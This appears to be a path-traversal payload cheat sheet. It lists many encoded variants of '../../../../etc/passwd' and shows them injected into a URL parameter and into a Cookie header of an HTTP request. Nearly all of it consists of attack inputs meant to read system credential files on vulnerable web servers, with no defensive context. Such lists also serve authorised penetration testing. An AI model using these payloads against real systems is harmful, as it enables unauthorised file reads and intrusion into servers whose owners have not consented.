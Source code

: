 ## Code Group

```
passwd
../../../../etc/passwd
../../../../etc/passwd%00
…./…./…./…./etc/passwd
////etc/passwd
/etc/passwd
%2e%2e%2f%2e%2e%2f%2e%2e%2f/etc/passwd  (../../../etc/passwd)
%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd  (../../../../etc/passwd)
%2e%2e%5c%2e%2e%5c%2e%2e%5cetc/passwd(..\..\..\etc\passwd)
%2e%2e\%2e%2e\%2e%2e\%2e%2e\etc/passwd(..\..\..\etc\passwd)
%2e%2e%2e%2e%2f%2e%2e%2e%2e%2fetc%2e%2e%2e%2e%2fpasswd(..../…./etc/passwd)
\…..\\\…..\\\…..\\\etc\\passwd
/…..///…..///…..///etc//passwd
```


## Add malicious code to URL parameters.

```
https://test.com/image/?filename=../../../../etc/passwd
```


## Add malicious code to any field in the request header

```
GET /vulnerable.php HTTP/1.0
Cookie: TEMPLATE=../../../../../../../../../etc/passwd

```
